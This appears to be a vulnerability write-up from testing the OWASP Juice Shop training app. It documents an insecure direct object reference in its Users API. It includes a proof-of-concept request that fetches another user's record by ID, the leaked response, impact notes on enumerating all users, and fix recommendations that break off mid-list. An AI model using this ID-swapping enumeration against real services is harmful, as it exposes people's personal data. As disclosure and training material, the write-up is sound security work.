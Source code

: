 **Category:** #a1_broken_access_control #a5_security_misconfiguration  

---

## Overview
The **Users API** exposes sensitive user information and does not enforce proper **access control checks**.  
Any authenticated user can supply an arbitrary **user ID** to retrieve details of other users, including email addresses and roles.  

---
## Proof of Concept  

### Request
```http
GET /api/Users/3 HTTP/1.1
Host: localhost:3000
Authorization: Bearer <valid_token>
```

### Response
```json
{
  "status": "success",
  "data": {
    "id": 3,
    "username": "",
    "email": "bender@juice-sh.op",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "",
    "profileImage": "assets/public/images/uploads/default.svg",
    "isActive": true,
    "createdAt": "2025-08-10T14:20:03.249Z",
    "updatedAt": "2025-08-10T14:20:03.249Z",
    "deletedAt": null
  }
}
```

- The attacker requested `/api/Users/3` and successfully obtained **personal data** for another user.  
- No **authorization check** was performed to confirm ownership.  

---
## Impact
- **User enumeration:** An attacker can loop through IDs to retrieve all registered users.  
- **Information disclosure:** Email addresses, roles, and account states are leaked.  
- **Targeted attacks:** Exposed information may be used for phishing, social engineering, or privilege escalation.  

**Severity:** High  

---
## Recommendations
1. **Enforce Authorization:** Ensure users can only access **their own profile** unless explicitly authorized (e.g., admins).  
2. **Use Access Control Middleware:** Apply ownership checks at the controller/service level.  
3. **Restrict Data Exposure:** Return only the fields strictly necessary (e
